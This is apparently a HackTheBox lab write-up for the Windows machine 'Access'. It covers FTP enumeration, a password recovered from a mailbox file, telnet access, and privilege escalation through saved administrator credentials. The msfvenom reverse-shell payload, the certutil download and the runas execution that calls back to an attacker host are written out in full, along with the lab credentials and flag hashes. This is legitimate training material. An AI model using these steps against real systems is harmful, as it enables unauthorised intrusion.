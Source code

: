 ```yaml
---
title: "Access"
date: 2025-06-20
categories:
  - HackTheBox
  - Windows
tags:
  - HackTheBox
  - Windows
---
```


# Access

![](assets/Pasted%20image%2020250515230704.png)
<!-- more -->

## Enumeration

```shell
$ nmap -A -T4 --min-rate 5000 -p- -n -Pn --open 10.10.10.98
Starting Nmap 7.95 ( https://nmap.org ) at 2025-05-15 23:06 CEST
Nmap scan report for 10.10.10.98
Host is up (0.042s latency).
Not shown: 65532 filtered tcp ports (no-response)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT   STATE SERVICE VERSION
21/tcp open  ftp     Microsoft ftpd
| ftp-syst: 
|_  SYST: Windows_NT
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_Can't get directory listing: PASV failed: 425 Cannot open data connection.
23/tcp open  telnet?
80/tcp open  http    Microsoft IIS httpd 7.5
|_http-server-header: Microsoft-IIS/7.5
|_http-title: MegaCorp
| http-methods: 
|_  Potentially risky methods: TRACE
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose|phone|specialized
Running (JUST GUESSING): Microsoft Windows 2008|7|Vista|Phone|2012|8.1 (97%)
OS CPE: cpe:/o:microsoft:windows_server_2008:r2 cpe:/o:microsoft:windows_7 cpe:/o:microsoft:windows_vista cpe:/o:microsoft:windows_8 cpe:/o:microsoft:windows cpe:/o:microsoft:windows_server_2012:r2 cpe:/o:microsoft:windows_8.1
Aggressive OS guesses: Microsoft Windows 7 or Windows Server 2008 R2 (97%), Microsoft Windows Server 2008 R2 or Windows 7 SP1 (92%), Microsoft Windows Vista or Windows 7 (92%), Microsoft Windows 8.1 Update 1 (92%), Microsoft Windows Phone 7.5 or 8.0 (92%), Microsoft Windows Server 2012 R2 (91%), Microsoft Windows Embedded Standard 7 (91%), Microsoft Windows Server 2008 R2 (89%), Microsoft Windows Server 2008 R2 or Windows 8.1 (89%), Microsoft Windows Server 2008 R2 SP1 or Windows 8 (89%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

TRACEROUTE (using port 23/tcp)
HOP RTT      ADDRESS
1   41.63 ms 10.10.14.1
2   42.22 ms 10.10.10.98

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 208.51 seconds
```

The website shows an image of servers.

![](assets/Pasted%20image%2020250515231318.png)

Enumerating the `FTP` service, we find two folders: `Backups` and `Engineer`.

Get the files inside both of them.

```shell
$ ftp 10.10.10.98
Connected to 10.10.10.98.
220 Microsoft FTP Service
Name (10.10.10.98:kali): ftp
331 Anonymous access allowed, send identity (e-mail name) as password.
Password: 
230 User logged in.
Remote system type is Windows_NT.
ftp> ls
425 Cannot open data connection.
200 PORT command successful.
125 Data connection already open; Transfer starting.
08-23-18  09:16PM       <DIR>          Backups
08-24-18  10:00PM       <DIR>          Engineer
ftp> ls backups
200 PORT command successful.
125 Data connection already open; Transfer starting.
08-23-18  09:16PM              5652480 backup.mdb
226 Transfer complete.
ftp> ls engineer
200 PORT command successful.
125 Data connection already open; Transfer starting.
08-24-18  01:16AM                10870 Access Control.zip
226 Transfer complete.
```

The zip file is password protected, so use `strings` on `backup.mdb` to see the password.

![](assets/Pasted%20image%2020250516162836.png)

Now unzip the `.pst` file.

First, using `readpst`, create an `mbox` file and then read it.

```shell
$ readpst Access\ Control.pst 
Opening PST file and indexes...
Processing Folder "Deleted Items"
        "Access Control" - 2 items done, 0 items skipped.
```

```shell
$ cat Access\ Control.mbox 
From "john@megacorp.com" Fri Aug 24 01:44:07 2018
Status: RO
From: john@megacorp.com <john@megacorp.com>
Subject: MegaCorp Access Control System "security" account
To: 'security@accesscontrolsystems.com'
Date: Thu, 23 Aug 2018 23:44:07 +0000
MIME-Version: 1.0
Content-Type: multipart/mixed;
        boundary="--boundary-LibPST-iamunique-1909107888_-_-"
...

Hi there,

 

The password for the “security” account has been changed to 4Cc3ssC0ntr0ller.  Please ensure this is passed on to your engineers.

 

Regards,

John

...

```

So we now have `security:4Cc3ssC0ntr0ller`.

## Initial Access

Using the credentials, try `telnet` on `port` `23`.

```shell
$ telnet 10.10.10.98 23
Trying 10.10.10.98...
Connected to 10.10.10.98.
Escape character is '^]'.
Welcome to Microsoft Telnet Service 

login: security
password: 

*===============================================================
Microsoft Telnet Server.
*===============================================================
C:\Users\security>whoami
access\security

```

Get the flag:

```shell
C:\Users\security>type desktop\user.txt
d317a0b870778120819e6db932f1752d
```

## Privilege Escalation

There are stored administrator credentials:

```shell
C:\Users\security>cmdkey /list

Currently stored credentials:

    Target: Domain:interactive=ACCESS\Administrator
                                                       Type: Domain Password
    User: ACCESS\Administrator
```

Create a reverse shell and upload it to the machine.

```shell
$ msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.14.14 LPORT=5555 -f exe -o reverse.exe
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 460 bytes
Final size of exe file: 7168 bytes
Saved as: reverse.exe
```

```shell
C:\Users\security>certutil -f -split -urlcache http://10.10.14.14:8000/reverse.exe
****  Online  ****
  0000  ...
  1c00
CertUtil: -URLCache command completed successfully.
```

Now start a listener and, using `runas`, execute the shell.

```shell
C:\Users\security>runas /savecred /user:ACCESS\Administrator ".\reverse.exe"
```

```shell
$ rlwrap nc -lnvp 5555
listening on [any] 5555 ...
connect to [10.10.14.14] from (UNKNOWN) [10.10.10.98] 49163
Microsoft Windows [Version 6.1.7600]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\Windows\system32>whoami
whoami
access\administrator
```

## Post Exploitation

Get the flag:

```shell
C:\Users\Administrator\Desktop>type root.txt
type root.txt
04c18a0791cf85431a0284101f6aef72
```
